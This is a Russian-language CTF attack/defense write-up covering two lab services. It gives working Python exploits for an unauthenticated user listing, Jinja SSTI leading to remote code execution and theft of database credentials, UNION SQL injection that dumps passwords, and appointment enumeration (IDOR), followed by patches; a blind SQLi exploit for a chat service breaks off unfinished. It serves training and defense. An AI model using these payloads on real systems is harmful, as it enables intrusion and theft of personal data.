# Летняя Школа CTF (30.07.2023 - 10.08.2023) Attack/Defense

---
## Service 1: smc

### Описание сервиса
Сервис предназначен для управления записями к врачами среди зарегистрированных на платформе пациентов. При развертывании сервиса средствами Docker Compose появляется два компонента:
1. Сам сервис (Frontend + Backend), доступный на порте 1337;
2. База Данных PostgreSQL, не имеющая открытого порта для прямого подключения.



---
### Vuln 1: Получение списка пользователей через /api-dev/users

Для дальнейших тестов зарегистрируем несколько пользователей:



Регистрируем таким образом 3 пользователя. Теперь, самое интересное, что всех зарегистрированных пользователей можно посмотреть даже **не проходя процедуру авторизации**. Нужно всего лишь перейти по пути **/api-dev/users**:



Напишем небольшой эксплойт:

```python
import requests

url = "http://localhost:1337/api-dev/users"

response__users = requests.get(url)
print("[+]", response__users.status_code, response__users.text)
```

```sh
$#> python smc__api-dev-user.py

[+] 200 {"list":[[1,"John Smith"],[2,"Ryan Gosling"],[3,"Bill Adams"]]}
```

Теперь дело за патчем уязвимости. Находим часть кода, которая отвечает за данный route:

```python
# /smc/src/routes.py

@app.route('/api-dev/users', methods=['GET'])
def get_users():
    return {'list': db.get_all_users()}
```

А теперь просто берем и удаляем/комментируем данную часть кода и перезапускаем сервис:



Проверяем наш патч:



Как видим, доступ к пользователям через **/api-dev/users** закрыт, но есть еще один нюанс...

---
### Vuln 2: RCE via SSTI
Вы заметили, что в случае, если страница не существует, появляется страница **404**, но на ней же выводится директория, по которой мы пытаемся перейти. Наталкивает на SSTI:

```sh
http://localhost:1337/{{7*7}}
```



Вот мы и нашли возможность исполнения произвольного кода на сервере. Раскручиваем атаку. Для начала узнаем, под каким номером скрывается объект **Popen()**, который позволяет исполнять код:

```sh
http://127.0.0.1:1337/{{''.__class__.mro()[1].__subclasses__()[273]}}
```



Собственно, само исполнение кода на стороне сервера:

```sh
http://localhost:1337/{{''.__class__.mro()[1].__subclasses__()[273]('ls -la',shell=True,stdout=-1).communicate()[0].strip()}}
```



Напишем эксплойт, который посредством найденной уязвимости будет взаимодействовать с базой данных:

```python
import requests
from urllib.parse import urlparse
from bs4 import BeautifulSoup


# Ссылка на сервис
url = "http://localhost:1337"

# Базовый payload, который возвращает данные для подключения к БД
payload__postgres_creds = '{{config.__class__.from_envvar.__globals__.__builtins__.__import__("os").environ.get("POSTGRES_CONNECT")}}'


# Функция, которая добавляет payload к url и возвращает результат
def triggering_ssti(url, payload):
    response = requests.get(url + "/" + payload)

    # Не забываем, что возможность исполнять код у нас появляется толькопри открытии страницы с 404 ошибкой
    if response.status_code == 404:
        return response.text
    else:
        return "[+] 200 | This path exists"


# Вызываем функцию с целью получения данных для входа.
html__page_with_creds = triggering_ssti(url=url, payload=payload__postgres_creds)


# Функция triggering_ssti() возвращает исходный html-код страницы, поэтому далее парсим сами данные, которые вернулись благодаря payload__postgres_creds
def creds_parser(page):
    soup = BeautifulSoup(page, "html.parser")

    # Выделяем строку с параметрами
    creds_string = soup.find_all("h1")[1].text.strip()[1:-len(" not found!")]

    # Парсинг отдельных данных
    string = urlparse(creds_string)

    # Выделяем данные из полученного ранее кортежа
    dbname = string.path[1:]
    user = string.username
    password = string.password
    host = string.hostname
    port = string.port

    return f'dbname={dbname} user={user} password={password} host={host} port={port}'


# Строка, которая необходима в дальнейшем для подклбчения
connection_string = creds_parser(page=html__page_with_creds)
#print(connection_string)


# Формируем главный payload

# Для начала активируем "курсор" для БД, который позволит нам исполнять SQL-запросы
cursor_payload = f'config.__class__.from_envvar.__globals__.__builtins__.__import__("psycopg2").connect("{connection_string}").cursor()'

# Затем, получаем данные из таблицы users
data = triggering_ssti(url=url, payload="" + '{{ cursor.execute("SELECT * FROM users") or "" }}' + "{{ config.__class__.from_envvar.__globals__.__builtins__.__import__('json').dumps(cursor.fetchall(), default=''.__class__) }}")

# Парсим получанные данные
soup = BeautifulSoup(data, "html.parser")
creds_string = soup.find_all("h1")[1].text.strip()[1:-len(" not found!")]

# Выводим наш результат
print(creds_string)
```

```sh
$#> python smc__ssti.py

[[1, "2023-08-12 14:15:04.059874", "Ryan Gosling", "asdfasdf", "RyanGosling@gmail.com"], [2, "2023-08-12 14:38:44.293652", "Jonh Peterson", "qwerty", "JonhPeterson@gmail.com"]]
```

Да, тут стоит отметить, что пользователи новые из-за перезапуска сервиса после внесения исправлений, тем не менее, суть от этого не меняется. Исправляем уязвимость. Все также находим уязвимую часть кода:

```python
# /smc/src/routes.py

@app.errorhandler(404)
def page_not_found(e):
    error_page = open('src/templates/404.html').read().replace('_PATH_', request.path)
    return render_template_string(error_page), 404
```

```html
# /smc/src/templates/404.html

<h1>
	_PATH_ not found!
</h1>
```

Исправленный вариант:





Проверяем наш патч:

```sh
http://localhost:1337/{{7*7}}
```



---
### Vuln 3: SQL Injection
Обратим внимание на следующий код:

```python
# /smc/src/sql.py

def get_doctor_by_name(self, docname):
    results = []
    with self.conn.cursor() as cursor:
        cursor.execute("SELECT * FROM doctors WHERE name = '%s'" % (docname, ))
        results = cursor.fetchall()
    if results == [] or results[0] == []:
        results = None
    return results


# /smc/src/routes.py

@app.route('/appointments/create', methods=['GET'])
def create_app():
    if 'logged' not in session or not session['logged']:
        return redirect(url_for('index'))
    return render_template('visitForm.html', doctors=json.dumps({'list': db.get_all_doctors()}))

@app.route('/appointments/create', methods=['POST'])
def create_app_post():
    if 'logged' not in session or not session['logged']:
        return redirect(url_for('index'))
    fio = request.form.get('fio')
    time = request.form.get('timeStamp')
    ins_num = request.form.get('insNum')
    doctor = request.form.get('doctor')
    app_id = db.create_appointment(session['user_id'], doctor, fio, ins_num, time)
    return redirect(url_for('info_app', appid=app_id))

@app.route('/appointments/<appid>/info', methods=['GET'])
def info_app(appid):
    if 'logged' not in session or not session['logged']:
        return redirect(url_for('index'))
    app_info = db.get_appointment_by_id(appid)[0]
    doctor = db.get_doctor_by_name(app_info[2])[0]
    return render_template('appointCurrent.html', appinfo=app_info, doctor=doctor)
```

В функции "get_doctor_by_name" при выполнении запроса к БД используется небезопасная операция форматирования (`%`). При использовании данного оператора в SQL-запрос поставляется значение переменной без какого-либо экранирования. Таким образом возникает уязвимость данной функции.

Проанализировав код, мы видим, что данная функция вызывается в API `GET /appointments/<appid>/info`. Чтобы достичь данной части кода необходимо предварительно записаться на прием к врачу, вызвав API `POST /appointments/create`, записав в поле `doctor` полезную нагрузку.

Руками такое точно реализовать не получится по причине того, что на front-end'е для поля `doctor` установлен список, из которого можно выбрать врача, поэтому пишем эксплойт, который нам поможет обойти выбор доктора из списка:

```python
import os
import requests
from bs4 import BeautifulSoup


# Функция для регистрации аккаунта
def register(session, url, username, password):
    res = session.post(
        url + "/register",
        data={
            "username": username,
            "personalData": f"{username}@gmail.com",
            "password": password,
            "passwordRep": password,
        },
        allow_redirects=False,
    )
    if res.status_code != 302:
        raise Exception("Failed to register user")
    if "err=" in res.headers["Location"]:
        raise Exception("Failed to register user")
    return True


# Функция для создания записи ко врачу
def create_appointment(session, url, doctor):
    res = session.post(
        url + "/appointments/create",
        data={
            "fio": "test",
            "timeStamp": "2023-01-09",
            "insNum": "test",
            "doctor": doctor,
        },
        allow_redirects=False,
    )
    return res.headers["Location"].split("/")[-2]


# Функция для получения информации о записи
def get_appointment(session, url, appointment_id):
    res = session.get(url + f"/appointments/{appointment_id}/info")
    if res.status_code != 200:
        print(res.text)
        raise Exception("Failed to get appointment")
    soup = BeautifulSoup(res.text, "html.parser")
    return [
        soup.find("div", {"class": "username"}).text.strip(),
        soup.find("div", {"class": "spec"}).text.strip()[len("specialization: ") :],
    ]


# Главная функция
def pwn(url):
    # Для начала формируем новые логин и пароль
    username = f"enigma-" + os.urandom(8).hex()
    password = os.urandom(16).hex()
    print(f"[*] Registering user {username}:{password}")

    # Делаем сессию и создаем аккаунт при помощи функции register()
    session = requests.Session()
    register(session, url, username, password)

    # Далее создаем запись ко врачу, но при этом используем необходимую нам нагрузку
    def sqli(payload):
        # Вызываем функцию create_appointment(), но передаем ей вместо реального доктора полезную нагрузку - аргумент payload
        appointment_id = create_appointment(session, url, payload)
        print(f"[*] Created appointment {appointment_id}")
        return get_appointment(session, url, appointment_id)


    # Вызываем функцию sqli(), которая поможет нам добраться до БД. В функцию передаем payload, который пойдет дальше в поле doctor
    results_usernames = sqli(
        "1' UNION SELECT 1, CAST(COUNT(*) as TEXT), string_agg(username, '\n') FROM users LIMIT 1 -- "
    )

    results_passwords = sqli(
        "1' UNION SELECT 1, CAST(COUNT(*) as TEXT), string_agg(password, '\n') FROM users LIMIT 1 -- "
    )

    # Вычисляем количество пользователей
    count = int(results_usernames[0])
    print(f"[*] Found {count} users")

    # Получаем логины и пароли
    data_usernames = results_usernames[1].split("\n")
    data_passwords = results_passwords[1].split("\n")

    creds_array = []

    for i in range(0, count):
        creds_array.append([data_usernames[i], data_passwords[i]])

    return creds_array


if __name__ == "__main__":
    print(pwn("http://localhost:1337"))
```

Результат работы эксплойта:

```sh
$#> python smc__sqli.py

[*] Registering user enigma-00d1ad42e3700b77:51f2d509838f57c0809a79f4d75c916a
[*] Created appointment 1
[*] Created appointment 2
[*] Found 2 users
[['Ryan Gosling', 'qwerty'], ['enigma-00d1ad42e3700b77', '51f2d509838f57c0809a79f4d75c916a']]
```

Почему создаются две записи на прием к врачу? Все просто - я вызываю функцию `sqli()` два раза. При этом в первый раз я получаю лонгины, а во второй пароли от этих самых логинов. Затем просто красиво выводим их попарно. Таким образом, м ы получаем доступ ко всем учетным записям. Попробуем это исправить:



В очередной раз билдим контейнер заново, чтобы изменения вступили в силу и проверям возможность использования SQLi:

```sh
$#> python smc__sqli.py

[*] Registering user enigma-49a8ddb0a026418b:8b16210fbff932f67c4832f08317d342
[*] Created appointment 1
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>

Traceback (most recent call last):
  File "C:\Users\Ivan-\Desktop\LetoCTF AD 2023\exploits\smc__sqli.py", line 98, in <module>
    print(pwn("http://localhost:1337"))
          ^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\Ivan-\Desktop\LetoCTF AD 2023\exploits\smc__sqli.py", line 73, in pwn
    results_usernames = sqli(
                        ^^^^^
  File "C:\Users\Ivan-\Desktop\LetoCTF AD 2023\exploits\smc__sqli.py", line 69, in sqli
    return get_appointment(session, url, appointment_id)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "C:\Users\Ivan-\Desktop\LetoCTF AD 2023\exploits\smc__sqli.py", line 45, in get_appointment
    raise Exception("Failed to get appointment")
Exception: Failed to get appointment
```

Как видим, наш эксплойт перестал работать, но он все также создает пользователя и запись на прием, вот только делает ли он теперь это так, как нам необходимо? Проверим это в нашем созданном аккаунте:



Таким образом, нам удалось защитить сервис от SQLi

---
### Vuln 4: Appointments

На данный момент у нас на сервисе зарегистрированы 3 пользователя и у каждого из них есть по одной записи к разным специалистам. Сейчас мы авторизованы от имени **Bill Krimson**.


При этом, я могу смотреть не только свои записи к врачам, но и записи других пользователей к различным специалистам. Для этого необходимо перейти по пути `/appointments/<number_here>/info`, выбрав нужный номер. Например, посмотрим свою запись:

```sh
http://localhost:1337/appointments/3/info
```


А теперь чужую:

```sh
http://localhost:1337/appointments/1/info
```


Таким образом, стоит нам только пройти авторизацию через любого пользователя, и мы можем получить доступ ко всем записям. Представим, что у пользлвателя "Ryan Gosling" есть две записи к врачам. Напишем эксплой, который регистрирует пользователя в системе, затем проходит авторизацию и последовательно забирает все записи к врачам:

```python
import requests
from bs4 import BeautifulSoup
import random
import os
import sys


url = 'http://localhost:1337'


# Функция для регистрации аккаунта
def register(url, username, password):
    res = requests.post(
        url + "/register",
        data={
            "username": username,
            "personalData": f"{username}@gmail.com",
            "password": password,
            "passwordRep": password,
        },
        allow_redirects=False,
    )
    if res.status_code != 302:
        raise Exception("Failed to register user")
    if "err=" in res.headers["Location"]:
        raise Exception("Failed to register user")
    return True


# Функция для входа в аккаунт
def login(session, url, username, password):
	res = session.post(
		url + "/login",
		data={
			"login": username,
			"password": password,
		},
		allow_redirects=True,
	)
	if res.status_code == 200:
		return True
	else:
		raise Exception("Failed to login")
		return False


# Функция для получения информации о записи
def get_appointment(session, url, appointment_id):
    res = session.get(url + f"/appointments/{appointment_id}/info")
    if res.status_code != 200:
    	sys.exit()
    soup = BeautifulSoup(res.text, "html.parser")
    return [
    	soup.find("div", {"class": "dataAppoint"}).text.strip(),
        soup.find("div", {"class": "username"}).text.strip(),
        soup.find("div", {"class": "spec"}).text.strip()[len("specialization: ") :],
    ]


# Главная функиция эксплойта
def main__exploit(username, password):
	# Тут хотел бы обратить внимание на то, что сессия применяется только к функции login(), чтобы потом получать записи к врачам (appointments) через АВТОРИЗОВАННОГО пользователя

	# Сессия
	session = requests.Session()
	print("[+] Account was successfully registered", register(url, username, password), "-", f"{username}:{password}")
	print("[+] Login successful", login(session, url, username, password), "-", f"{username}:{password}")

	# Верхний порог цикла не стоит оставлять маленьким - может быть много записей. В любом случае, эксплойт остановится в случае, если код ответа будет отличен от "200"
	for i in range(1, 1000):
		print(f"[+] Appointment {i}", get_appointment(session, url, i))


if __name__ == "__main__":
	print(main__exploit(f"EnigmaHackers-{str(os.urandom(8).hex())}", f"{str(os.urandom(8).hex())}"))
```

Результат работы эксплойта:
```sh
$#> python smc__appointments.py

[+] Account was successfully registered True - EnigmaHackers-9f6748f3a3ed40e6:0b30e3a5c7285270
[+] Login successful True - EnigmaHackers-9f6748f3a3ed40e6:0b30e3a5c7285270
[+] Appointment 1 ['Date of appointment: 2023-10-25\n\n\n\n\n\n\n Client Name: Ryan Gosling\n\n\n\n\n\n\n Insurance Number: 3', 'Theresa J. Pesina', 'Pediatrics']
[+] Appointment 2 ['Date of appointment: 2023-12-14\n\n\n\n\n\n\n Client Name: Ryan Gosling\n\n\n\n\n\n\n Insurance Number: 4', 'Timothy T. Fox', 'Urology']
```

Таким обазом, мы получаем все записи, что есть в системе на данный момент. На этом с этим сервисом мы заканчиваем и переходим к второму.

---
## Service 2: skychat

### Описание сервиса

Сервис представляет собой чат для общения с поддержкой некого продукта. Общение происходит с ИИ. Разные аккаунты (support agent XX) являются проявлениями одного и того же ИИ, поэтому данные всех пользователей обрабатывает одна и та же сущность ИИ. При развертывании сервиса средствами Docker Compose появляется два компонента:
1. Сам сервис (Frontend + Backend), доступный на порте 31337;
2. База Данных PostgreSQL, имеющая открытый порт для прямого подключения - 5432.



Тут сразу стоит сделать помарку. СЕРВИС НЕ РАБОТАЕТ В ПОЛНОЙ МЕРЕ - из-за отсутствия компонента ИИ. Так сложилось, что создатели сервиса (на момент 23.08.2023) не выложили исходники вышеупомянутого компонента, но тем не менее, некоторые уязвимости мы все-таки сможем рассмотреть.

---
### Vuln 1: Blind SQLi

В роутере при переходе в директорию `/api/v1/update_msg` можно поменять сообщение по ID. Поэтому после изменения предыдущего сообщения, которое ИИ не заблокировало, можно попросить выполнить эту команду. При этом, используя обновление сообщения, вызывается фнкция `db_get_message()`, которая является уязвимой по причине того, что параметр `text` вставляется напрямую в запрос.

Сам уязвимый компонент:



Эксплойт для получения всех существующих сообщений во всех чатах:

```python
import os
import json
import base64
import requests


# Функция для регистрации пользователя
def register(url, username, password):
    result = requests.post(
        f"{url}/api/v1/register", json={"login": username, "password": password}
    )
    return json.loads(result.text)


# Функция для создания чата
def create_chat(url, username, password):
    result = requests.post(
        f"{url}/api/v1/chats",
        auth=(username, password),
    )
    return json.loads(result.text)


# Функция для получения всех чатов
def get_chats(url, username, password):
    result = requests.get(
        f"{url}/api/v1/chats",
        auth=(username, password),
    )
    return json.loads(result.text)["data"]


# Написание сообщения в чат
def add_message(url, username, password, chat_id, message: str):
    result = requests.post(
        f"{url}/api/v1/chats/{chat_id}",
        auth=(username, password),
        json={
            "text": message,
            "direction": True,
        },
    )
    return json.loads(result.text)


# Функция для извлечения данных из чата
def get_messages(url, username, password, chat_id):
    result = requests.get(
        f"{url}/api/v1/chats/{chat_id}",
        auth=(username, password),
    )
    response = json.loads(result.text)
    return response["data"] if "data" in response else []


# Основная функция эксплойта
def pwn(url):
    # Создание аккаунта
    username = "enigma-" + os.urandom(8).hex()
    password = base64.urlsafe_b64encode(os.urandom(16)).decode()
    print(username, password)


    # Функция для обновления сообщения
    def update_message(msg_id, text):
        result = requests.post(
            f"{url}/api/v1/update_msg",
            auth=(username, password),
            json={
                "msg_id": msg_id,
                "text": text,
            },
        )
        try:
            return json.loads(result.text)
        except Exception as e:
            print(result.text)
            raise e


